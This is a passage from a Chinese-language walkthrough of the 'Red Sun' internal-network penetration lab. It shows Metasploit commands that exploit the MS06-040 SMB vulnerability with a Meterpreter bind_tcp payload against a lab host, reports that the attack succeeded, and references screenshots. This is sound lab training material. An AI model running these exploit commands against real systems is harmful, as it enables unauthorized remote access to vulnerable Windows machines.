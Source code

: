 攻击成功，管道打开

![image-20210809173703941](红日靶场内网渗透.assets/image-20210809173703941.png)



**2.2 ms06-040漏洞利用**

```
search  ms06-040

use  exploit/windows/smb/ms06_040_netapi

set payload  windows/meterpreter/bind_tcp

set rhost    192.168.52.141

set target  5
```

漏洞利用成功，攻击成功，管道打开

![image-20210809174522308](红日靶场内网渗透.assets/image-20210809174522308.png)
